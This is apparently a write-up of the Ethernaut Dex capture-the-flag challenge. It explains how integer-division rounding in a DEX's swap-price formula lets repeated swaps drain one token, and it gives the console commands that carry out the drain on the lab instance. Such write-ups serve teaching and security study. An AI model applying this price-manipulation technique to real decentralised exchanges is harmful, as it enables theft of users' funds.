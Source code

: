 # Drain 1 of the token and allow contract to report bad price

When we look at the contract, the price of the token is fetch from a math equation written inside the contract function.
```
  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```
The equation can be summarized as:
```
```
Swap Amount = <AMOUNT_WE_SWAP> * <DEX_BALANCE_TOKEN_WE_WANT> / <DEX_BALANCE_TOKEN_WE_SEND>
```

The vulnerabiltiy is by getting swap price through this method, the division won't calculate to a perfect integer but a fraction. In solidity, division rounds towards zero. For example, `3/2 = 1`.

We can simulate how the balance would go if we swap them.

| DEX | PLAYER |
|-|-|
| TOKEN1 - TOKEN2 | TOKEN1 - TOKEN2 |
| 100 - 100 | 10 - 10 |
| 110 - 90 | 0 - 20 |
| 86 - 110 | 24 - 0 |
| 110 - 80 | 0 - 30 |
| 69 - 110 | 41 - 0 |
| 110 - 45 | 0 - 65 |
| 0 - 90 | 110 - 20 |

The table start out of by swapping 10 token1 to token2 on second row. The outcome is as expected, normal. However when we swap all token2 (20) to token1 we get 24. The ratio of token1 : token2 should be 1 : 1 yet we get 4 extra token. So if we keep on swapping till the end, we would reach a point where one of the DEX token run out of liquidity.

To continue to need to give approval to DEX to swap for us. Under the normal circumstances we would use this function.
```
contract.approve(contract.address, 500)
```

However in this contract, they require `owner != dex` when approving.
```
function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
```

So we need to try other way. By deploying the 'ERC20.sol' contract in remix IDE to token address, we can use 'ERC20.sol' `approve` our instance address and amount we let the DEX to access. After `approve`, use `allowance` function to call the targetted instance address and owner(our address). [link](https://stackoverflow.com/questions/71986811/ethernaut-challenge-lv22-dex-allowance-approval-problem)

After these steps we should be clear to swap. Go back to browser console terminal to get token address:
```
t1 = await contract.token1()
t2 = await contract.token2()
```

Perform the swaps according to table:
```
await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)
```

Verify:
```
await contract.balanceOf(t1, instance).then(v => v.toString())

// Output: '0'
```